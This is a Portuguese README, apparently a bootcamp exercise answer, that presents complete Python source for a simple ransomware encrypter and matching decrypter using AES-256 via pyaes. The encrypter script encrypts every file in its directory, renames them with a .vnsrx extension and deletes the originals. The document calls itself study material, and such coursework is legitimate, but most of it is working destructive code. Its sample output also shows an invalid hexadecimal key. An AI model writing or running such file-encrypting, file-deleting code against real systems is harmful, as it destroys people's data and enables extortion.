


# Ransomware - Criptografia de Dados (AES-256)


 


Esta é a minha resposta ao ultimo desafio de código oferecido pelo Bootcamp de Cibersegurança - Santander.

## Objetivo

Implemente um Ransomware para criptografar arquivos utilizando a linguagem Python.

## Estrutura - Encrypter e Decrypter

Este script em python para criptografa os arquivos existentes no diretório em que está usando a criptografia AES-256. O script gera automaticamente uma chave aleatória, criptografa todos os arquivos no diretório atual (exceto o próprio script e arquivos já criptografados) e remove os arquivos originais após a criptografia.

Estes são scripts em Python utilizados para criptografar arquivos usando AES-256 e para descriptografar arquivos previamente criptografados. Ambos os scripts ajudam a proteger seus dados de forma segura e eficiente. Mas, em mãos erradas, podem causar danos e perdas.

## Funcionalidades

### Encrypter

* **Criptografia AES-256**: Garante alta segurança ao criptografar arquivos com uma chave de 256 bits.
* **Geração Automática de Chave**: Cria uma chave aleatória e segura para a criptografia.
* **Criptografia Seletiva**: Evita criptografar diretórios, arquivos já criptografados e o próprio script.
* **Remoção de Arquivos Originais**: Exclui os arquivos originais após a criptografia.

### Decrypter

* **Descriptografia AES-256**: Recupera os arquivos criptografados utilizando a chave original.
* **Identificação Automática**: Identifica arquivos criptografados pela extensão .vnsrx.
* **Limpeza**: Remove os arquivos criptografados após a descriptografia bem-sucedida.

## Requisitos

Python 3.x

Biblioteca pyaes (instale via pip, caso ainda não tenha):

 ```bash
pip install pyaes
 ```

## Como Usar

**Criptografia de Arquivos**

* Clone o repositório ou baixe o arquivo do script de criptografia.
* Coloque o script no diretório que contém os arquivos que você deseja criptografar.
* Execute o script de criptografia:

 ```bash
python3 encrypter.py
 ```

  O script gerará uma chave de criptografia aleatória e a exibirá em formato hexadecimal. Guarde essa chave com segurança, pois ela será necessária para descriptografar os arquivos posteriormente.

  O script criptografará todos os arquivos no diretório, adicionando a extensão .vnsrx aos arquivos criptografados, e excluirá os arquivos originais.

Descriptografia de Arquivos

* Certifique-se de ter a chave utilizada na criptografia.
* Baixe ou execute o script de descriptografia no mesmo diretório onde estão os arquivos criptografados.
* Execute o script de descriptografia:

 ```bash
python3 decrypter.py
 ```

Insira a chave de descriptografia em formato hexadecimal quando solicitado. O script descriptografará todos os arquivos e os salvará sem a extensão .vnsrx, removendo os arquivos criptografados.

## Exemplo de Saída

**Script de Criptografia**

 ```bash
Chave gerada: 5f2c5e4d7a8b3c9a10d4e5a6f7b8c9d0e1f2a3b4c5d6e7f8a9b0c1d2e3f4g5h6
Arquivo exemplo.txt criptografado com sucesso e salvo como exemplo.txt.vnsrx!
Arquivo original exemplo.txt foi removido.
Todos os arquivos foram criptografados.
 ```

**Script de Descriptografia**

 ```bash
Digite a chave de descriptografia em formato hexadecimal (64 caracteres): 5f2c5e4d7a8b3c9a10d4e5a6f7b8c9d0e1f2a3b4c5d6e7f8a9b0c1d2e3f4g5h6
Arquivo exemplo.txt.vnsrx descriptografado com sucesso e salvo como exemplo.txt!
Arquivo criptografado exemplo.txt.vnsrx foi removido.
Todos os arquivos criptografados foram descriptografados e removidos.
 ```
## Observações

* **Segurança da Chave**: As chaves de criptografia e descriptografia não são salvas pelos scripts. Certifique-se de armazená-las com segurança.

* **Processo Irreversível**: Após a criptografia ou descriptografia, os arquivos originais ou criptografados são excluídos permanentemente. Garanta que você salvou a chave antes de executar os scripts.

## Os Códigos em Pyhton

**ENCRYPTER**

 ```bash
import os
import pyaes
import os
import random
import string

def generate_random_key(length=32):
    """Gera uma chave aleatória de bytes usando os.urandom para segurança criptográfica."""
    return os.urandom(length)

def encrypt_file(file_name, key):
    # Lê os dados do arquivo
    with open(file_name, "rb") as file:
        file_data = file.read()

    # Cria um objeto AES com AES-256
    aes = pyaes.AESModeOfOperationCTR(key)

    # Criptografa os dados
    encrypted_data = aes.encrypt(file_data)

    # Salva os dados criptografados em um novo arquivo com a extensão .vnsrx
    new_file_name = file_name + ".vnsrx"
    with open(new_file_name, "wb") as file:
        file.write(encrypted_data)

    print(f"Arquivo {file_name} criptografado com sucesso e salvo como {new_file_name}!")

    # Verifica se o arquivo criptografado foi criado com sucesso
    if os.path.isfile(new_file_name):
        # Remove o arquivo original
        os.remove(file_name)
        print(f"Arquivo original {file_name} foi removido.")
    else:
        print(f"Erro: O arquivo criptografado {new_file_name} não foi criado. O arquivo original não será removido.")

def main():
    # Gera uma chave aleatória de 32 bytes
    key = generate_random_key(32)

    print(f"Chave gerada: {key.hex()}")  # Exibe a chave em formato hexadecimal

    # Nome do arquivo do script
    script_name = os.path.basename(__file__)

    # Lista todos os arquivos no diretório atual
    for file_name in os.listdir('.'):
        # Ignora diretórios, arquivos já criptografados e o próprio script
        if os.path.isfile(file_name) and not file_name.endswith('.vnsrx') and file_name != script_name:
            encrypt_file(file_name, key)

    print("Todos os arquivos foram criptografados.")

if __name__ == "__main__":
    main()
 ```

**DECRYPTER**

 ```bash
import os
import pyaes

def decrypt_file(file_name, key):
    # Lê os dados do arquivo criptografado
    with open(file_name, "rb") as file:
        encrypted_data = file.read()

    # Cria um objeto AES
    aes = pyaes.AESModeOfOperationCTR(key)

    # Descriptografa os dados
    decrypted_data = aes.decrypt(encrypted_data)

    # Salva os dados descriptografados em um novo arquivo sem a extensão .vnsrx
    new_file_name = file_name.replace('.vnsrx', '')
    with open(new_file_name, "wb") as file:
        file.write(decrypted_data)

    print(f"Arquivo {file_name} descriptografado com sucesso e salvo como {new_file_name}!")

    # Verifica se o arquivo descriptografado foi criado com sucesso
    if os.path.isfile(new_file_name):
        # Remove o arquivo criptografado
        os.remove(file_name)
        print(f"Arquivo criptografado {file_name} foi removido.")
    else:
        print(f"Erro: O arquivo descriptografado {new_file_name} não foi criado. O arquivo criptografado não será removido.")

def main():
    # Solicita ao usuário que insira a chave de descriptografia em formato hexadecimal
    key_hex = input("Digite a chave de descriptografia em formato hexadecimal (64 caracteres): ").strip()

    # Verifica se a chave tem exatamente 64 caracteres (32 bytes em hexadecimal)
    if len(key_hex) != 64:
        print("A chave deve ter exatamente 64 caracteres em formato hexadecimal.")
        return

    # Converte a chave de hexadecimal para bytes
    key = bytes.fromhex(key_hex)

    # Lista todos os arquivos no diretório atual
    for file_name in os.listdir('.'):
        # Verifica se o arquivo é criptografado
        if os.path.isfile(file_name) and file_name.endswith('.vnsrx'):
            decrypt_file(file_name, key)

    print("Todos os arquivos criptografados foram descriptografados e removidos.")

if __name__ == "__main__":
    main()
   ```
### Resultados





**ARQUIVO MODELO**

 ```bash
Não criptografe esse documento, por favor! Ele é importante para a participação no Bootcamp de Cibersegurança - Santander #2
                                                       - DIO 2024 -
 ```


⚠️ Aviso

Estes scripts são fornecidos no estado em que se encontram, sem qualquer garantia e atendem ao único propósito de estudo e pesquisa proposto pelo bootcamp. Use-os por sua conta e risco e assegure-se de ter backups de arquivos importantes antes de utilizá-los.